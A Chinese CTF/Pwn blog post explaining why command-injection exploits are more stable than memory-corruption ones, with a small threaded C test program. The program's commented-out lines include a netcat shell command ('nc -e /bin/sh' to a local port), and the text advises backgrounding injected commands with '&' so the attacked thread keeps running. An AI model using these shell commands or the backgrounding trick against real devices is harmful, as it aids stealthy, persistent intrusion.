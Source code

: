 ```yaml
---
title: Getshell稳定：命令注入 > 内存破坏
date: 2020-12-15 00:00:00
categories:
- CTF/Pwn
tags: Getshell
---
```


> 不要瞧不起命令注入，因为你不得不承认，命令注入型漏洞就是要比内存破坏型漏洞要稳。在实际的攻击中，我们发现的漏洞代码的运行实体可能是单蹦儿的一个进程，也可能是某个进程的一个线程。如果攻击发生在某个线程中，对其他线程，以及线程所属的进程会不有影响呢？在这种情况下，内存破坏漏洞的表现怎么样呢？

使用如下测试代码，每次可以打开其中一个注释：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```


1. 内存破坏无论发生在哪个线程中，若触发SIGSEGV，整个进程就会崩溃，并且一般程序不会注册SIGSEGV的信号处理函数
2. system函数命令注入，可能会使得被攻击的线程卡住，其他线程正常运行，因为system函数会等待其执行命令的返回。

在实际攻击中，我们发现用命令注入的漏洞攻击某设备的某个进程，无论我的exp是否有失误，设备不用重启，漏洞进程不会被打崩溃，也不会卡死。（这事在Web手看起来不是理所当然的么！）

至于原因当然和Web手攻击的情景是一样的，就像apache，会为连进来的请求建立新的进程。或者像CTF中Pwn题的部署方式，即socat和xinetd。分析发现，我们的每次攻击都是在目标进程新启动的线程中触发的，所以大不了就是这个线程卡死，再次攻击又是一个新的线程。并且开发在写线程的时候，为的就是卡死没事，这种情景在网络数据处理的时候会很常见。所以为了避免system函数卡死，拼接进去的命令注入可以让其在后台运行(&)，这样system函数即可马上返回，也不影响被攻击的线程。

但是如果漏洞类型是内存破坏漏洞，即使他出现在某个线程里，只要你稍不留神，触发了SIGSEGV，整个进程就完蛋了。如果该进程没有守护进程让他再次等待被你攻击，那也就只有重启设备了。